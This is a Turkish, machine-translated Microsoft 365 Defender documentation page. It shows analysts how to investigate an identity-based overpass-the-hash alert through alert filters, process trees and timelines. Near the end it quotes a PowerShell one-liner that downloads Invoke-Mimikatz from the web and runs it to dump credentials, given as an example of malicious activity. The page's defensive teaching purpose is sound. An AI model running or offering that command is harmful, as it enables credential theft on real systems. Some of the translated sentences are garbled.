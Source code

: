 ```yaml
---
title: Kimlik tabanlı bir saldırı örneği
description: Kimlik tabanlı bir saldırının örnek çözümlemesinde adım adım ilerler.
keywords: olaylar, uyarılar, araştırma, korelasyon, saldırı, makineler, cihazlar, kullanıcılar, kimlikler, kimlik, posta kutusu, e-posta, 365, microsoft, m365, olay yanıtı, siber saldırı
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 20b9fca87e003c0c776c9f614afaa1b6054c24a5
ms.sourcegitcommit: 3b8e009ea1ce928505b8fc3b8926021fb91155f3
ms.translationtype: MT
ms.contentlocale: tr-TR
ms.lasthandoff: 03/28/2022
ms.locfileid: "64500287"
---
```

# <a name="example-of-an-identity-based-attack"></a>Kimlik tabanlı bir saldırı örneği

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Aşağıdakiler için geçerlidir:**
- Microsoft 365 Defender

Kimlik için Microsoft Defender, kötü amaçlı girişimleri algılamaya yardımcı olarak, organizasyon kimliklerini tehlikeye atma konusunda yardımcı olabilir. Identity için Defender, kimlik Microsoft 365 Defender ile tümleştiri olduğundan, güvenlik analistleri şüpheli Netlogon ayrıcalık yükseltme girişimleri gibi Identity için Defender'dan gelen tehditlere karşı görünürlük sağlar.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Saldırıyı iş yerinde Kimlik için Microsoft Defender

Microsoft 365 Defender, analistlerin olaylar sayfasının Uyarılar sekmesindeki algılama **kaynağıyla uyarıları** filtrelemelerine olanak sağlar. Aşağıdaki örnekte algılama kaynağı, Kimlik için Defender olarak **filtre uygulanmıştır**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Çalışma alanında algılama kaynağını Kimlik için Microsoft Defender" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Şüpheli **üstteki karmser saldırı uyarısını** seçmek, şu ifadede daha ayrıntılı bilgi Microsoft Defender for Cloud Apps bir sayfaya gider. Saldırı ve düzeltme önerilerinin açıklamasını okumak için Bu uyarı türü hakkında daha fazla  bilgi alın öğesini seçerek her zaman bir uyarı [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) veya saldırı hakkında daha fazla bilgi bulabilirsiniz.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Şüpheli bir üstteki karmser saldırı uyarısı" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Aynı saldırıyı iş yerinde Uç Nokta için Microsoft Defender

Alternatif olarak, bir analist uç nokta üzerinde etkinlik hakkında daha fazla bilgi edinmek için Uç Nokta için Defender'ı kullanabilir. Olay sırasından olayı seçin ve sonra Uyarılar **sekmesini** seçin. Buradan, algılama kaynağını da tanımlayabilirler. Uç Nokta olarak etiketlenmiş algılama EDR Uç Nokta için Defender olan Uç Nokta Algılama ve Yanıt'ın açılımıdır. Analist buradan, güvenlik uzmanı tarafından algılanan bir uyarıyı EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Yeni Portalda Uç Nokta Algılama Uç Nokta için Microsoft Defender Yanıt" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png"::: 

Uyarı sayfasında, etkilenen cihaz adı, kullanıcı adı, otomatik soruşturma durumu ve uyarı ayrıntıları gibi çeşitli bilgiler görüntülenir. Uyarı hikayesinde, işlem ağacının görsel bir gösterimi yer almaktadır. İşlem ağacı, uyarıyla ilgili üst ve alt işlemlerin hiyerarşik bir gösterimidir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="alan içinde bir uyarı işlemi Uç Nokta için Microsoft Defender" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Daha fazla ayrıntı görüntülemek için her işlem genişletilebilir. Bir analistin göreceği ayrıntılar kötü amaçlı bir betiğin parçası olarak girilen gerçek komutlar, giden bağlantı IP adresleri ve diğer yararlı bilgilerdir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Uç Nokta için Microsoft Defender portalında süreç ayrıntıları" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Zaman çizelgesinde **gör'i seçerek**, analist güvenlik güvenliğinin tam zamanı belirlemek için daha da detaya iner. 

Uç Nokta için Microsoft Defender birçok kötü amaçlı dosya ve betik algılanabilir. Bununla birlikte, giden bağlantılar, PowerShell ve komut satırı etkinliklerinin pek çok yasal kullanımı nedeniyle, kötü amaçlı bir dosya veya etkinlik oluşturana kadar bazı etkinlikler izin olarak kabul edilir. Bu nedenle, zaman çizelgesini kullanmak analistlerin ortak dosya sistemi ve kullanıcı etkinliğine yönelik saldırının özgün kaynağını veya saatlerini belirlemek üzere uyarıyı çevresindeki etkinlikle ilgili bağlama eklemesine yardımcı olur. 

Zaman çizelgesini kullanmak için, bir analist uyarı algılama zamanında (kırmızıyla) başlayabilir ve kötü amaçlı etkinliğin başladığı özgün etkinliğin ne zaman başlayacağını belirlemek için geriye doğru kaydırır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Uyarı algılama için analistin başlangıç zamanı" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update bağlantıları, Windows Yazılım etkinleştirme trafiği, Microsoft sitelerine diğer yaygın bağlantılar, üçüncü taraf İnternet etkinlikleri, Microsoft Endpoint Configuration Manager etkinlikleri ve şüpheli etkinlikler gibi sık kullanılan etkinlikleri anlamak ve ayırt etmek önemlidir. etkinlik. Zaman çizelgesi filtrelerini kullanarak ayırt etmek için bir yol vardır. Analistin görüntülemek istemediklerini filtrelerlerken belirli etkinliği vurgulayan birçok filtre vardır. 

Aşağıdaki resimde, yalnızca ağ ve süreç olaylarını görüntülemek için filtrelenmiş analist. Bu filtre ölçütü, analistin etkinliği çevreleyen ağ bağlantılarını ve süreçleri görmelerine olanak Not Defteri; işlem ağacında da gördüğümüz IP adresiyle bir bağlantı kurabilirsiniz. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Giden Not Defteri kötü amaçlı bağlantı yapmak için nasıl kullanılır?" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Bu özel olayda, Not Defteri giden bağlantı yapmak için bu kod kullanılmıştır. Ancak genellikle saldırganlar kötü amaçlı iexplorer.exe indirmek üzere bağlantı kurmak için iexplorer.exe kullanır çünkü normalde bu işlemler normal web tarayıcısı etkinliği olarak kabul edilir.

Zaman çizelgesinde bakıla diğer bir öğe, PowerShell'in giden bağlantılar için kullandığı öğe olabilir. Analist, kötü amaçlı dosyayı barındıran bir web sitesine `IEX (New-Object Net.Webclient)` giden bağlantı gibi komutların ve ardından da giden bağlantının olduğu başarılı PowerShell bağlantılarını elde eder. 

Aşağıdaki örnekte, PowerShell bir web sitesinden Mimikatz'i indirmek ve yürütmek için kullanılmıştır:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analist, yalnızca PowerShell ile oluşturulan olayları görüntülemek için arama çubuğuna anahtar sözcüğü yazarak anahtar sözcükleri hızla arayabilir. 

## <a name="next-step"></a>Sonraki adım

Kimlik avı [soruşturması](first-incident-path-phishing.md) yoluna bakın.

## <a name="see-also"></a>Ayrıca bkz.

- [Olaylara genel bakış](incidents-overview.md)
- [Olayları yönetin](manage-incidents.md)
- [Olayları araştırın](investigate-incidents.md)
